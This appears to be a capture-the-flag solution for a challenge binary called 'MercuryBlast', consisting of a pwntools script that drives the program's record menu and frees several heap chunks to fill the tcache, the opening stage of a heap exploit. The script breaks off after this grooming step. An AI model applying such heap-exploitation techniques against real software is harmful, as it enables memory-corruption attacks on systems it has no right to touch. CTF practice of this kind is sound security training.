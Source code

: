 # MercuryBlast

Author: y-chav

# Solution
```py
from pwn import * 

binary = "./MercuryBlast"
p = process(binary)
s = '''
b * edit_record+384
b * delete_record
'''
# add_record+334 before read()
#b * print_records+223
context.log_level = 'debug'
libc = ELF('./libc.so.6')
elf = ELF(binary)


def add_record(size, data):
    p.sendlineafter("Your choice: ", "1")
    p.sendlineafter("Input Temperature:", "1")
    p.sendlineafter("Input Description Size: ", str(size))
    p.sendafter("Input Description: ", data)

def edit_record(index, size, buffer): # size <= 0x200
    p.sendlineafter("Your choice: ", "4")
    p.sendlineafter("Input index: ", str(index))
    p.sendlineafter("Input Temperature: ", "1")
    p.sendlineafter("Input Description Size: ", str(size))
    p.sendafter("Input Description: ", buffer)

def delete_record(idx):
    p.sendlineafter("Your choice: ", "3")
    p.sendlineafter("Input Index:", str(idx))

def print_record():
    p.sendlineafter("Your choice: ", "2")
    #print(p.clean().decode())


add_record(0x200, b'AAAAAAAA') # 0 
add_record(0x200, b'AAAAAAAA') #1
add_record(0x200, b'AAAAAAAA') #2
add_record(0x200, b'AAAAAAAA') #3
add_record(0x200, b'AAAAAAAA') #4
add_record(0x200, b'AAAAAAAA') #5
add_record(0x200, b'AAAAAAAA') #6
add_record(0x200, b'AAAAAAAA') #7

# fill up the tcache
delete_record(0)
delete_record(1)
delete_record(2)
delete_record(3)
delete_record(4)
delete_record(5)
delete_record(7)

```